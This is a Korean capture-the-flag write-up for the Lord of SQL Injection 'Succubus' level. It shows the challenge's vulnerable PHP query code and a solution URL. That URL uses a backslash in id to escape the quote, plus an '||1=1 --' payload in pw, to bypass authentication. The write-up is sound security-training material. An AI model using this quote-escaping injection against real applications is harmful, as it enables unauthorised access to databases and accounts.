 # Lord of SQL Injection No.17 Succubus

Succubus 문제는 `'`를 사용하지 않고 `pw` 절을 닫은 후 원하는 값을 넣을 수 있도록 유도한 문제이다.

## 소스 코드
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

```php
if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");
```

`$_GET` 방식으로 받는 `id`와 `pw`에서 `'`가 필터링되면 `HeHe`를 출력하고 문제 풀이에 실패하게 된다.

#### 문제 풀이 조건

```php
if($result['id']) solve("succubus"); 
```

`id`값이 존재하기만 하면 문제 풀이에 성공하게 된다.

## Solution

```sql
select id from prob_succubus where id='\' and pw=' ||1=1 -- ;'
```

`pw` 입력문은 임의로 `'`를 이용하면 `preg_match`의 필터링 때문에 정상적으로 닫아줄 수 없기 때문에 `id` 입력 부분에 `\`를 넣어주면 `\' and pw=` 부분이 문자열로 인식된다.

예를 들어, `'Hi my name is 'Jaehun'.'` 과 같은 문자열을 인식할 때, `'`는 문자로 인식을 할 수 없어 오류를 내뿜는다.

그렇게 때문에 `\'`를 사용하여 문자로 인식하여 오류를 수정할 수 있다.

```
http://los.eagle-jump.org/succubus_***.php?id=\&pw=%20||1=1%20--%20;
```
`id`에 `\`를 넣어주어 `pw` 입력 절을 없애고 `pw=%20`을 입력한 후 `1=1`로 항상 참으로 만들어 준 다음 주석 처리를 하여 `pw`절을 무력화 시키면 문제 풀이에 성공하게 된다.